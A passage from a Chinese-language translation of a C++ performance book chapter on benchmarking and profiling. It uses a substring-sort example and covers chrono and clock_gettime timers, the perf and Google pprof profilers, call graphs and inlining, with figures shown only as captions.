	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
```

两个字符串的简单比较。如果第一个字符串大于第二个字符串，则返回true，否则返回false。我们可以将函数定义在与代码相同的文件中，在这个小示例中，我们也会尝试模拟真实程序的行为，该程序可能会使用分布在许多不同文件中的函数。因此，本章的`compare.C`文件中的实现了比较函数，其余的例子在`example.C`文件中。

最后，使用`chrono`库中的高精度计时器来测量，统计子字符串排序所需的时间。

示例中缺少字符串的实际数据。子字符串排序在许多应用程序中是一项常见的任务，并且每个应用程序都有自己获取数据的方法。我们的例子中，可以使用生成的随机字符串。另一方面，在许多子字符串排序的实际应用中，会有一个字符在字符串中出现的频率比其他任何字符都要高。

我们也可以模拟这种类型的数据，用一个字符填充字符串，然后随机改变其中的一些字符:

**01_substring_sort_a.C**

``` {style="styleCXX"}
constexpr unsigned int L = 1 << 18, N = 1 << 14;
unique_ptr<char[]> s(new char[L]);
vector<const char*> vs(N);
minstd_rand rgen;
::memset(s.get(), 'a', N*sizeof(char));
for (unsigned int i = 0; i < L/1024; ++i) {
	s[rgen() % (L - 1)] = 'a' + (rgen() % ('z' - 'a' + 1));
}
s[L-1] = 0;
for (unsigned int i = 0; i < N; ++i) {
	vs[i] = &s[rgen() % (L - 1)];
}
```

字符串的长度`L`和子字符串的数量`N`运行的时长，需要适配相应的硬件(如果想在其他设备上重复运行这个例子，可能需要调整相应的数字，运行速度速度取决于使用的处理器)。

现在可以编译和运行了:

\
图 2.1

得到的结果取决于使用的编译器、运行的硬件环境。当然，还取决于数据的语料库。

现在我们有了第一个性能测试。现在可能会碰到的第一个问题是，如何优化？嗯......这并不应该是第一个问题。第一个问题应该是，需要优化吗？要回答这个问题，需要有具体的性能目标和指标，以及这个项目其他部分的性能的数据，例如：如果实际的字符串是由一个耗时10小时的模拟生成的，那么排序所花费的100秒的时间几乎可以忽略不计。当然，我们仍是在处理模拟示例，除非我们必须要提高性能，否则本章不会对优化进行讨论。

我们准备好讨论如何优化它吗？这个问题先放放。当前的问题应该是，**应该优化什么**？或者说，程序在什么地方花费的时间最多？即使在这个例子中，这个耗时热点可能是排序，或是比较函数。对于不能访问的源码(除非想破坏标准库)，可以将计时器放入到相应的函数前后。

不过，这不太可能产生好的结果。因为调用计时器也需要时间，所以每次调用比较函数时，若每次运行比较都非常快，调用计时器的时间将对测试结果有较大的影响。实际的程序中，这种带有计时器的结构几乎没有。如果不知道时间耗费在哪里，就需要在数百个函数中安插计时器(如果没有测试，要如何知道这一点？)。所以，这时就需要性能分析工具来帮助我们来完成一些工作了。

下一节中会介绍更多关于分析器的知识。现在，只需了解以下命令行将编译和执行的程序，并使用GperfTools包中的谷歌分析器，收集其运行时的相关信息即可:

\
图 2.2

数据放在`prof.data`文件中，其路径由`CPUPROFILE`环境变量指定。细心的读者可能已经注意到，这次程序运行的时间更长了，这是性能分析不可避免的副作用。假设分析器本身工作正常，那么程序不同部分的相对性能仍然是准确的。

输出的最后一行说明，分析器已经收集了一些数据，现在需要以可读的格式显示这些数据。对于谷歌分析器收集的数据，用户界面工具是`google-pprof`(通常安装为简单的`pprof`)，最简单的方式是列出程序中的每个函数，以及在该函数中花费时间的百分比(第二列):

\
图 2.3

分析器显示，大多时间都花在比较函数`compare()`上，而排序几乎不花时间(第二行是`std::sort`，应该认为是排序耗时的一部分)。对于任何分析，都需要收集50个以上的样本数据。样本数据的数量取决于程序运行的时间，为了获得可靠的数据，需要在每个要测试的函数中积累至少几十个样本数据。就我们的情况而言，其结果比较容易判断，因此我们会按收集的数据来做分析。

由于子字符串比较函数占用了总运行时间的98%，我们只有两种方法来提高性能：可以使这个函数更快，或者可以减少使用次数(许多人忘记了第二种可能性，直接使用第一种可能性)。第二种方法需要使用不同的排序算法，不在本书的讨论范围之内。这里我们将重点放在第一个选项上，让我们再来看一下比较函数的代码:

**01_substring_sort_a.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2, unsigned int l) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
```

这只是几行代码，我们应该能够理解和预测代码的所有行为。还有一个比较子字符串和它本身的检查，这肯定比实际逐字符比较要快。所以，除非确定函数调用时两个指针的值不会相同，否则这一行肯定保持不变。

还有一个循环(循环的主体是一次比较一个字符)，这里必须这样做，因为不知道哪个字符可能不同。循环本身会一直运行，直到找到一个差值或比较最大可能的字符数为止。显而易见，后一种情况是不可能发生的:该字符串以空字符结尾，即使两个子字符串中的所有字符都相同，那也会到达较短子字符串的末尾，将其末尾的空字符与另一个子字符串中的非空字符进行比较，从而确定较短的子字符串是两者中较短的字符串。

当两个子字符串都从同一个位置开始时，才有可能读取字符串末尾以外的内容，所以我们在函数的一开始就进行了检查。这很好！这里有了一些不必要的工作，因此可以优化代码，并避免每次循环迭代都进行一次比较操作(考虑到循环体中没有很多其他操作)。

代码中的改动非常简单，只需删除循环对长度的比较操作(不再需要将长度传递给比较函数):

**03_substring_sort_a.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0;; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
```

更少的参数、操作、代码。运行这个程序，看看这次优化为节省了多少运行时间:

\
图 2.4

如果说事情没有按计划进行，那就太保守了。原来的代码花了98毫秒来解决相同的问题(图2.1)。"优化后的"代码需要210毫秒，尽管做的工作更少(在这个例子中，并不是所有的编译器都表现出这种特殊的性能异常，但我们使用的是实际生产过程中使用的编译器)。

总结一下这个例子，它实际上是一个现实程序的简单版本。当我们试图优化这段代码时，另一个开发者正在使用代码的另一部分，并且还需要一个子字符串比较函数。将单独开发的代码片段放在一起，只保留了这个函数的一个版本，而它恰好是我们没有修改的那个；其他开发者的修改几乎同样:

**04_substring_sort_a.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2) {
	if (s1 == s2) return false;
	for (int i1 = 0, i2 = 0;; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
```

仔细观察这段代码和它前面的代码片段，看看是否能发现区别。

唯一的区别是循环变量的类型。之前，我们使用了`unsigned int`，索引从0开始并向前推进，因为我们不期望有任何负数。后一个代码片段使用了`int`，放弃了可能的索引值范围的一半。

对于这个代码的修改，可以再次运行我们的基准测试，这次是用新的比较函数。结果出人意料:

\
图 2.5

最新版本耗时74毫秒，比我们最初的版本(98毫秒，图2.1)快，也比几乎相同的第二个版本(210毫秒，图2.2)快得多。

后面的章节中，我们再来解释这个现象的根本原因。本节的目的是阐明**永远不要猜测性能**："显而易见"的优化------用更少的代码做完全相同的计算------反向进行不重要的小改变------使用有符号整数而不是无符号的函数------结果证明是最后一个才是有效的优化。

即使在这个非常简单的例子中，性能结果也可能与直觉相反。因此，对于性能决策的唯一方法必须是指标驱动。本章的其余部分，我们将看到一些用于收集性能指标的工具，并将会学习如何使用它们，以及如何解释其结果。

###  2.3.性能基准测试 {#性能基准测试 .unnumbered}

收集关于程序性能信息的最简单的方法就是运行，并测量运行所花费的时间。当然，要进行有效的优化，需要更多的数据。最好知道程序的哪些部分耗时最长，其他代码可能非常低效，但也只需要很少的时间，因此不会对最终结果有任何影响。

在示例程序中添加计时器后，我们知道了排序需要花费多长时间。简而言之，这就是**基准测试**。其余的工作都是体力活，用计时器检测代码，收集信息，并以可读的格式进行报告。看看有什么工具可以做到这一点，先从语言本身提供的计时器开始。

**2.3.1C++的chrono计时器**

C++在chrono库中有一些工具可以用来收集计时信息，可以测量程序中经过任意两点之间所需的时间:

**example.C**

``` {style="styleCXX"}
#include <chrono>
using std::chrono::duration_cast;
using std::chrono::milliseconds;
using std::chrono::system_clock;
  …
auto t0 = system_clock::now();
  … do some work …
auto t1 = system_clock::now();
auto delta_t = duration_cast<milliseconds>(t1 – t0);
cout << "Time: " << delta_t.count() << endl;
```

应该指出的是，C++计时时钟测量的是实时时间(通常称为*挂钟时间*)。通常，这就是想要测量的时间。更详细的分析通常需要测量CPU时间，即CPU的工作时间，以及CPU空闲的时间。单线程程序中，CPU时间不能大于实际时间。当程序是计算密集型时，这两个时间理论上相同，这意味着完全使用CPU进行计算了。另一方面，用户界面程序会把大部分时间都花在等待用户和闲置CPU上，所以我们希望CPU时间尽可能的短，这样的程序就是高效的，并且使用尽可能少的CPU资源来满足用户的请求。

**2.3.2高精度计时器**

为了测试CPU时间，我们必须使用特定于操作系统的系统函数，在Linux和其他posix兼容的系统上，可以使用`clock_gettime()`来使用硬件的高精度计时器:

**clocks.C**

``` {style="styleCXX"}
timespec t0, t1;
clockid_t clock_id = …; // Specific clock
clock_gettime(clock_id, &t0);
  … do some work …
clock_gettime(clock_id, &t1);
double delta_t = t1.tv_sec – t0.tv_sec +
  1e-9*(t1.tv_nsec – t0.tv_nsec);
```

第二个参数的函数返回当前时间，`tv_sec`是过去某一时刻到现在的秒数，`tv_nsec`是上一整个秒到现在的纳秒数。时间的起始是多少并不重要，因为我们总是测量时间间隔。这里要先减去秒，然后再加纳秒。

在前面的代码中已经使用了几个硬件计时器，可以通过`clock_id`的值进行选择，这些计时器与我们已经使用过的系统或实时时钟相同，其ID为`CLOCK_REALTIME`。我们感兴趣的另外两个计时器是两个CPU计时器:`CLOCK_PROCESS_CPUTIME_ID`是测量当前程序使用CPU时间的计时器，而`CLOCK_THREAD_CPUTIME_ID`是测量线程调用使用时间的计时器。

对代码进行基准测试时，使用多个计时器进行测量通常很有帮助。一个单线程程序若进行不间断的计算时，三个计时器应该返回相同的结果:

**clocks.C**

``` {style="styleCXX"}
double duration(timespec a, timespec b) {
	return a.tv_sec - b.tv_sec + 1e-9*(a.tv_nsec - b.tv_nsec);
}
…
{
	timespec rt0, ct0, tt0;
	clock_gettime(CLOCK_REALTIME, &rt0);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct0);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt0);
	constexpr double X = 1e6;
	double s = 0;
	for (double x = 0; x < X; x += 0.1) s += sin(x);
	timespec rt1, ct1, tt1;
	clock_gettime(CLOCK_REALTIME, &rt1);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct1);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt1);
	cout << "Real time: " << duration(rt1, rt0) << "s, "
	  "CPU time: " << duration(ct1, ct0) << "s, "
	  "Thread time: " << duration(tt1, tt0) << "s" <<
	  endl;
}
```

这里的"CPU密集型的工作"是一种计算，所以三个计时器的时间几乎相同。时间将取决于计算机的运行速度，结果是这样的:

commandshell= Real time: 0.3717s, CPU time: 0.3716s, Thread time:
0.3716s

如果CPU时间与实际时间不匹配，则很可能是机器过载(许多其他进程正在争夺CPU资源)，或程序耗尽内存(如果程序使用的内存超过机器上的物理内存，将使用慢得多的磁盘进行数据交换，当程序等待从磁盘调入内存时，CPU无法执行任何工作)。

另外，如果没有太多的计算，而是等待用户输入，或者从网络接收数据，亦或做一些其他不占用太多CPU资源的工作，则会看到不同的结果。观察这种行为的最简单方法是调用`sleep()`函数:

\
**clocks.C**

``` {style="styleCXX"}
{
	timespec rt0, ct0, tt0;
	clock_gettime(CLOCK_REALTIME, &rt0);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct0);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt0);
	sleep(1);
	timespec rt1, ct1, tt1;
	clock_gettime(CLOCK_REALTIME, &rt1);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct1);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt1);
	cout << "Real time: " << duration(rt1, rt0) << "s, "
	  "CPU time: " << duration(ct1, ct0) << "s, "
	  "Thread time: " << duration(tt1, tt0) << "s" <<
  	  endl;
}
```

可以看到休眠程序几乎不怎么使用CPU:

commandshell= Real time: 1.000s, CPU time: 3.23e-05s, Thread time:
3.32e-05s

对于传输套接字或读取文件阻塞的程序，或者正在等待用户操作的程序，也是这样几乎不怎么使用CPU。

目前为止，还没有看到两个CPU计时器之间的区别(除非程序使用线程，否则不会看到区别)。我们可以让这个需要大量计算的程序，完成同样的工作，但为其创建一个单独的线程进行计算:

\
**clocks.C**

``` {style="styleCXX"}
{
	timespec rt0, ct0, tt0;
	clock_gettime(CLOCK_REALTIME, &rt0);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct0);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt0);
	constexpr double X = 1e6;
	double s = 0;
	auto f = std::async(std::launch::async,
	  [&]{ for (double x = 0; x < X; x += 0.1) s += sin(x);
	  });
	f.wait();
	timespec rt1, ct1, tt1;
	clock_gettime(CLOCK_REALTIME, &rt1);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct1);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt1);
	cout << "Real time: " << duration(rt1, rt0) << "s, "
	  "CPU time: " << duration(ct1, ct0) << "s, "
	  "Thread time: " << duration(tt1, tt0) << "s" <<
	  endl;
}
```

总的计算量保持不变，并且只有一个线程在执行这项工作，因此我们不期望对实时性或整个进程的CPU时间有任何改进。不过，调用计时器的线程现在是空闲的，它所做的就是等待`std::async`返回`future`，直到工作完成。这种等待与前面例子中的`sleep()`非常类似:

commandshell= Real time: 0.3774s, CPU time: 0.377s, Thread time:
7.77e-05s

现在，实时和进程的CPU时间与"计算密集型"示例中的CPU时间相似，但线程特定的CPU时间较低，就像"休眠"示例中的CPU时间一样。因为程序都在做大量的计算，但是使用计时器的线程，大部分时间都在休眠。

大多数情况下，如果打算使用线程进行计算，我们的目标是更快地进行更多的计算，因此会使用几个线程，并将不同的工作分配给它们。我们修改一下前面的例子，让其在主线程上也能进行计算:

\
**clocks.C**

``` {style="styleCXX"}
{
	timespec rt0, ct0, tt0;
	clock_gettime(CLOCK_REALTIME, &rt0);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct0);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt0);
	constexpr double X = 1e6;
	double s1 = 0, s2 = 0;
	auto f = std::async(std::launch::async,
	  [&]{ for (double x = 0; x < X; x += 0.1) s1 += sin(x);
	  });
	for (double x = 0; x < X; x += 0.1) s2 += sin(x);
	f.wait();
	timespec rt1, ct1, tt1;
	clock_gettime(CLOCK_REALTIME, &rt1);
	clock_gettime(CLOCK_PROCESS_CPUTIME_ID, &ct1);
	clock_gettime(CLOCK_THREAD_CPUTIME_ID, &tt1);
	cout << "Real time: " << duration(rt1, rt0) << "s, "
	  "CPU time: " << duration(ct1, ct0) << "s, "
	  "Thread time: " << duration(tt1, tt0) << "s" <<
	  endl;
}
```

两个线程都在进行计算，因此程序的CPU时间是实际时间的两倍:

commandshell= Real time: 0.5327s, CPU time: 1.01s, Thread time: 0.5092s

这还不错！我们在0.53秒的实时时间内完成了1秒的计算。理想情况下，这应该是0.5秒，但启动线程和等待线程会有一定的开销。另外，两个线程中的一个可能会花费稍长的时间来完成工作，而另一个线程在某些时候可能空闲。

对程序进行基准测试是一种收集性能数据的方法。通过观察执行一个函数，或处理一个事件所花费的时间，可以对代码的性能了解很多。在计算密集型的代码中，可以了解程序是否在不间断地进行计算，或者正在等待什么。对于多线程程序，可以测量并发的有效性和开销。不仅限于收集执行时间，还可以输出相关的任何计数和值，比如：调用函数的次数、排序的平均字符串的长度等，以便进行分析程序的各项指标。

然而，这种灵活性是有代价的。使用基准测试，可以了解关于程序性能的问题。不过，这里只报告了测量数据，如果想知道某个函数需要多长时间，就必须给它添加计时器。问题是，在代码中到处撒计时器是不行的，这些函数的调用代价相当昂贵，所以使用太多计时器会减慢程序的速度，并严重影响性能测试。若具有经验和良好的编码规则，可以提前编写一些代码，这样就可以针对其主要部分进行基准测试了。

如果不知道从哪里开始，该怎么做？如果接手了一个没有进行任何基准测试的代码库，该怎么办？或者，性能瓶颈存在于一大坨代码中，但其中没有计时器，该怎么办？一种方法是继续测试代码，直到有足够的数据来分析问题。不过，这种暴力的方法很慢，所以需要一些关于性能数据分析的引导。这就是**分析工具**的作用所在，它可以自动收集程序的性能数据，而非手工检测，从而便于进行简单的基准测试。我们将在下一节中学习如何使用性能分析工具。

###  2.4.性能分析 {#性能分析 .unnumbered}

接下来，将要了解各种性能分析工具。我们已经了解了性能分析器的使用，可以确定占用大量计算时间的函数。这正是其用途所在，它可以用来查找"热点"函数和代码段。

有许多不同的商业和开源分析工具可用。本节中，我们将研究两个在Linux系统上主流的性能分析器。这里不是想要将读者培养成某个特定工具的专家，而仅是了解选择使用的性能分析器可以提供什么，以及如何对其结果进行解析。

首先，了解一下几种不同类型的性能分析器:

-   一些分析器在解释器或虚拟机下执行，并观察各个代码段所花费的时间。这些分析器的主要缺点是，程序运行的速度比直接编译到机器指令的代码慢。对于像C++这样的编译语言来说，并且通常不会在虚拟机下运行的。

-   还有一些分析器，要求在编译或链接期间用特殊的指令插入代码中。这些指令为分析器提供了相应的信息，例如：当函数调用或循环开始和结束时，会告知数据收集引擎。这些分析器比前一种类型的分析器快，但仍然比本机执行速度慢。并且，需要对代码进行特殊编译，并依赖于某种假设:插装的代码与原始代码的性能差异不大(相对的)。

-   大多数现代分析器使用现代CPU上的硬件计数器。这些是硬件寄存器，可以用来跟踪某些硬件事件，硬件事件就是执行指令。可以看到这对分析非常有效：处理器将做计数指令的工作，而不需要其他工具或任何开销。我们要做的就是读取计数寄存器的值。

或者，用简单地计算复杂指令的方法。我们需要知道在每个函数中，甚至在每一行代码执行所花费的时间。如果分析器在执行每个函数(或每个循环、每一行代码等)前后读取指令计数，就可以做到这一点。这就是为什么有分析器可以使用多种计数方案：使用特定的指令标记感兴趣的代码段，并使用硬件性能计数器来进行实际测量。

有些分析器依赖于时间采样，其以一定的间隔中断程序，例如：每10毫秒中断一次，并记录性能计数器的值，以及程序的当前位置(即将执行的指令)。如果90%的样本在调用`compare()`函数的过程中获得的，则可以假设程序花了90%的时间进行字符串比较，这种方法的准确性取决于采样数和采样率。

对程序执行的采样越频繁，收集的数据就越多，但开销也会越大。某些情况下，在采样不太频繁的情况下，可以使用硬件分析器，这就对程序的运行时间没有任何影响了。

**2.4.1perf分析器**

本节中的第一个分析器工具是Linux性能分析器。这是Linux上最流行的分析器之一，大多数发行版都有安装了，其是基于硬件性能计数器和基于时间采样的分析器。

运行这个分析器最简单的方法是收集整个程序的计数器值，可以通过`perf stat`命令完成:

\
图 2.6

从图2.6中可以看到，编译不需要任何特殊选项或工具。程序由分析器执行，`stat`选项告诉分析器显示在程序运行期间，硬件性能计数器中累积的计数值。本例中，程序运行了158毫秒(与程序本身打印的时间一致)，并执行了13亿多条指令。还显示了其他几个计数器，如"页面错误"和"分支"。这些计数器是什么，还有哪些计数器可用？

事实证明，现代CPU可以收集不同类型事件的统计信息，但一次只能收集几种类型的事件。前面的例子中，展示了8个计数器，因此可以假设这个CPU有8个独立的计数器。以前，每个计数器都会分配到一个事件类型中。分析器本身可以列出所有已知的事件，并可以计数:

\
图 2.7

图2.7中的列表是不完整的，可用的计数器因CPU而异(如果使用虚拟机，则在类型和配置上有所不同)。图2.6中的结果只是默认配置的计数器收集的，我们还可以选择其他的计数器进行配置:

\
图 2.8

图2.8中，我们可以测量CPU周期和指令，以及分支、分支缺失、缓存引用和缓存缺失。下一章将详细解释这些计数器和其相应的监视事件。

简单地说，周期时间是CPU频率的倒数，所以一个3GHz的CPU每秒可以运行30亿个周期。大多数CPU的频率是可变的，这使得测量变得更复杂了。因此，为了精确的分析和进行基准测试，建议禁用省电模式和其他会让CPU时钟变化的功能。指令计数器测量处理器执行指令的数量，CPU平均每周期可以执行四条指令。

"分支"是条件指令:每个带有条件的`if`语句和每个`for`循环都会生成多条这样的指令。分支缺失在下一章进行解释，现在只能说这是一个性能开销大，而且不受欢迎的事件。

"缓存引用"计算CPU需要从内存中读取的次数。大多数时候是一段数据，比如：字符串中的一个字符。根据处理器和内存的状态，这个取回可以非常快，也可以非常慢。慢的话会认为是"缓存丢失"("慢"是一个相对概念：相对于3GHz的处理器速度，1微秒是一个很长的时间)。内存层次结构将在后面的章节进行解释，而且缓存丢失也是一个性能开销特别大的事件。

理解了CPU和内存的工作方式后，就能够使用这些指标来衡量程序的总体效率，并确定哪些因素限制了程序的性能。

目前为止，我们只看到了整个项目的测量结果。图2.8中表明哪些事件拖累了代码的性能，例如：如果现在接受"缓存丢失"对性能不利的观点，可以推断出这段代码的主要问题是低效的内存访问(十分之一的内存访问是缓慢的)。然而，代码具体是哪部分导致了较差的性能，这种类型的数据并没有展示出来。为此，不仅需要在程序执行前后收集数据，还需要在程序执行期间收集数据。来看看如何用`perf`来收集这些信息。

**2.4.2使用perf进行详细分析**

`perf`分析器将硬件计数器与基于时间采样结合，记录正在运行程序的性能情况。对于每个示例，记录程序计数器的位置(要执行的指令的地址)和需要查看的性能计数器。运行后对数据进行分析，包含大多数的函数和代码行的执行时间。

分析器的数据收集不会特别复杂。在运行时，收集指令地址转换为原始源代码中的行号，程序必须使用调试信息进行编译。若已经习惯了"优化"和"非优化"这两种编译模式，这种编译器选项的组合可能会出乎意料，这时"优化"和"非优化"都会启用。启用后者的原因是，我们需要在生产环境中运行的相同代码；否则，数据没什么无意义。所以需要通过编译代码来分析，并使用`perf record`命令运行分析器:

\
图 2.9

与`perf stat`类似，可以指定计数器或一组计数器。但这次，使用默认计数器。我们没有具体说明采样的频率，也使用默认值。采样频率可以显式指定，例如：`perf record -c 1000`即记录每秒1000个样本。

运行程序后，屏幕输出包括常规输出和分析器的信息。上一个例子中，分析样本已经捕获到名为`perf.data`的文件中(这是也可以修改)。为了将文件中的数据可视化，需要使用数据分析工具，就是`perf report`。运行此命令后，界面如下所示:

\
图 2.10

这就是对数据的分析，按函数执行时间占总时长占比进行排序。可以深入到函数内部，了解哪一行代码执行的时间最长:

\
图 2.11

图2.11左边的数字是每一行执行时间的百分比。这条"线"说明了什么？其显示了源代码和产生的汇编指令，执行时间计数器与每个硬件指令相关联(这是CPU执行的指令，所以这是可计数的)。编译后的代码可以和源代码进行关联，这种关联是由分析器使用调试信息建立的。然而，因为对代码进行了优化，所以这种对应并不准确。编译器在编译时对原始代码进行优化，这些优化会导致代码重排，并可能改变计算的方式。即使在这个简单的例子中也可以看到一个很诡异的现象:下面的源码行出现了两次。

``` {style="styleCXX"}
if (s1 == s2) return false;
```

原因是这一行生成的指令并不都在同一个地方；优化器将它们与来自其他行的指令重新排序。因为这两条指令最初由它生成，所以分析器将这行源码显示在两条机器指令附近。

即使不看汇编程序，我们也可以知道，时间花在比较字符和运行循环上，以下两行源码占用了大部分时间:

``` {style="styleCXX"}
for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
	if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
```

为了充分利用这些数据，至少有助于理解当前使用平台(在我们的例子中是x86
CPU)的汇编语言。分析器还提供了一些有助于分析的工具，例如：通过将光标放在`jne`(如果不是等于的话跳转)指令上，可以跳转到哪里，以及与跳转相关的条件:

\
图 2.12

这看起来会重复跳转最后几行代码，所以跳转前面的`cmp`(compare)指令必须是`i1 < l`，跳转和比较总共占了执行时间的18%，所以之前对(不必要的)比较操作的关注是合理的。

`perf`分析器有很多的选项和功能来分析、过滤和合并结果，可以从其文档中了解更具体的内容(这个分析器也有几个GUI前端)。接下来，我们将快速了解另一个分析器，来自谷歌的性能工具。

**2.4.3谷歌的性能分析器**

谷歌CPU分析器使用硬件性能计数器，也需要代码的链接时按插指令(但编译时不需要)。要准备代码进行分析，必须将与分析器的库进行链接：

\
图 2.13

图2.13中，这个库是由`-lprofiler`指定的。与perf不同，这个分析器不需要任何特殊工具来调用程序，因为相应的代码已经链接到可执行文件中。可检测的可执行文件不会自动开始分析，必须通过设置环境变量*CPUPROFILE*为要存储结果的文件指定路径。其他选项也通过环境变量来控制(不用命令行选项)，例如：通过变量`CPUPROFILE_FREQUENCY`设置每秒采样数:

\
图 2.14

同样，我们看到了程序本身和分析器的输出，并得到了必要的数据文件。该分析器有交互式和批处理两种模式，其交互模式是一个简单的文本界面:

\
图 2.15

只需以可执行文件和数据文件的名称作为参数运行`google-pprof`(通常只安装为`pprof`)，就会弹出命令提示符。这里，可以得到用执行时间百分比标注的函数信息，可以在源代码级别进一步分析程序性能:

\
图 2.16

这个分析器采用了不同的方法，并且不会立即深入到机器代码中(尽管也可以生成带注释的汇编码)。尽管表面上的看起来简单，其实不然。前面提到的优化警告仍然存在，编译器仍然会对代码进行优化(指令重排)。

由于作者实现的方法不同，不同的分析器就有不同的优缺点。为了不将这一章变成分析器手册，我们将在本节的其余部分展示在收集和分析数据文件时，可能遇到的问题。

**2.4.4使用调用图进行分析**

目前为止，简单示例规避了实际中在每个程序中都会遇到的问题。我们看到比较函数占了大部分的执行时间，这样就能立即知道程序的哪个部分非常耗时，因为这个函数只有这一行代码。

现实中的程序都没有这么简单，编写函数的主要原因是便于重用。显然，许多函数在多个位置上都有调用，有些是多次，有些可能只有几次，不同的调用通常会使用不同的参数。这样的话，只知道哪个函数花费大量时间就不够了，还需要知道使用这个函数的上下文(毕竟，最有效的优化可能是少调用性能开销大的函数)。

需要的是一个数据文件，需要报告在每个函数和每行代码中花费了多少时间，而且还显式每个调用链中花费了多少时间。分析器通常使用调用图来显示这些信息。在图中，调用者和被调用者是节点，而调用是边。

首先，我们修改示例，在多个位置调用某个函数。让我们从两种类型的`sort`调用开始:

\
**05_compare_timer.C**

``` {style="styleCXX"}
std::sort(vs.begin(), vs.end(),
  [&](const char* a, const char* b) {
	++count; return compare1(a, b, L); });
std::sort(vs.begin(), vs.end(),
  [&](const char* a, const char* b) {
	++count; return compare2(a, b, L); });
```

调用仅在比较函数中不同。我们的例子中，第一个比较函数与前面相同，第二个比较函数的顺序相反。两个函数对子字符串的循环与原来的比较函数相同:

\
**05_compare_timer.C**

``` {style="styleCXX"}
bool compare1(const char* s1, const char* s2, unsigned int l) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
		int res = compare(s1[i1], s2[i2]);
		if (res != 0) return res > 0;
	}
	return false;
}
bool compare2(const char* s1, const char* s2, unsigned int l) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
		int res = compare(s1[i1], s2[i2]);
		if (res != 0) return res < 0;
	}
	return false;
}
```

两个函数都使用相同的公共函数来比较每个字符:

``` {style="styleCXX"}
int compare(char c1, char c2) {
	if (c1 > c2) return 1;
	if (c1 < c2) return -1;
	return 0;
}
```

实际程序中不会这样做，如果希望避免由于重复循环而造成的代码重复，那么应该编写一个参数化比较字符的函数。无论如何，我们都不想离起始示例太远，希望代码保持简单，以便分析结果。

我们已经准备好生成一个调用图，将显示如何在两个排序调用之间分割字符比较的开销。使用过的两种分析器都可以生成调用图；在本节中，将使用谷歌分析器。分析器收集的数据已经包含了调用链信息，只是还没把它可视化。

我们编译代码，并运行分析器(简单起见，我们把每个函数分别放在不同的源文件中):

\
图 2.17

分析器可以以几种不同的格式(Postscript、GIF、PDF等)显示调用图，例如：要生成PDF输出，需要运行以下命令:

commandshell= google-pprof --pdf ./example prof.data \> prof.pdf

我们感兴趣的信息在调用图的底部:

{width="60%"}\
图 2.18

如图2.18所示，`compare()`函数有两个调用函数，占总执行时间的58.6%。这两个调用函数中，`compare1()`函数比`compare2()`函数调用的次数稍多一些；前者占执行时间的27.6%(或59.8%的`compare()`耗时)，后者占13.8%的时间(或40.2%的`compare()`耗时)。

基本调用图通常足以确定问题的调用链，并选择程序需要进一步探索的区域。分析工具还具有更高级的功能，例如：过滤函数名、合并结果等。掌握所选工具的特性可以区分实际和假设。解析性能数据文件可能会比较复杂，原因有很多:一些是由于工具的限制，另一些是更偏向于原理性的解释。下一节中，我们将讨论后一个原因:为了使指标具有相关性，测试必须在完全优化的代码上进行。

**2.4.5优化和内联**

解析性能数据文件时，我们已经看到了编译器优化是如何搅浑这趟水的:所有的数据文件都是同时生成，并在已编译的机器码上完成的，而我们看到的是程序的源代码。由于编译器优化，这两种形式之间的关系会变得模糊不清。就重新排列源代码而言，最积极的优化方式是函数的编译时内联。

内联要求函数的源代码在调用点是可见的。为了演示，必须将整个源码合并到一个文件中:

\
**02_substring_sort.C**

``` {style="styleCXX"}
bool compare(const char* s1, const char* s2, unsigned int l) {
	if (s1 == s2) return false;
	for (unsigned int i1 = 0, i2 = 0; i1 < l; ++i1, ++i2) {
		if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
	}
	return false;
}
int main() {
	…
	size_t count = 0;
	std::sort(vs.begin(), vs.end(),
	  [&](const char* a, const char* b) {
		++count; return compare(a, b, L); });
}
```

现在编译器可以(很可能会)在排序使用比较的地方生成机器代码，而不是调用外部函数。这样的内联是有效的优化方式，当然这种情况经常发生，并不仅仅发生在同一个文件的函数上。更常见的情况是，内联会影响只包含头文件的函数(其整个实现都在头文件中)，例如：前面的代码中，对`std::sort`的调用(看起来像函数调用)肯定是内联的，因为`std::sort`是模板函数，其整个实现都在头文件中。

我们之前使用的分析器工具是如何处理内联代码的，为带注释的源代码运行谷歌分析器会产生以下报告:

\
图 2.19

看来分析器知道`compare()`是内联的，但仍然会显示其原始名称。源代码中的行对应的是函数代码写入的位置，而不是函数调用的位置，例如：第23行是这样的:

``` {style="styleCXX"}
if (s1[i1] != s2[i2]) return s1[i1] > s2[i2];
```

另一方面，perf分析器很难显示内联函数:

\
图 2.20

